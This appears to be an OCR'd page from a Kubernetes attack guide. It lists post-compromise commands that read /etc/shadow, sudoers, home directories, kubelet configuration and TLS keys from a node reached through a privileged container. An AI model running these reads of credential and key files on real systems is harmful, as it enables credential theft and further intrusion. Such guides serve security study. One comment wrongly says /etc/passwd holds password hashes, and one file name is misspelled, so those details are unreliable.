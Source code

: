***Read any file present on the host node's filesystem.***

1. Inspect sensitive files and folders on the compromised node:

    ```bash
    # Contains the hashed passwords for all users on the system
    cat /etc/passwd
    cat /etc/shadow
    # Similar to /etc/shadow, but for group account passwords
    cat /etc/gdshadow

    # Defines privileges for users and groups regarding the use of sudo
    cat /etc/sudoers
    ls /etc/sudoers.d/

    # The home directory of the root user
    ls /root
    # The home folders of all users in the system
    ls /home
    ```

2. Identify in which node the privilege container is currently running:

    ```bash
    # node name would usually be on the /etc/hosts file
    cat /etc/hosts
    # node name would be passed via the --hostname-override flag in kube-proxy 
    ps -aux | grep "kube-proxy"
    ```

3. Inspect interesting files and folders that belong to the kubelet process:

    ```bash
    # kubelet configuration
    cat /var/lib/kubelet/config.yaml
    # kubelet client and server tls keys
    ls -lhra /var/lib/kubelet/pki
    # list pods managed by kubelet
    ls -lhra /var/lib/kubelet/pods
    ```
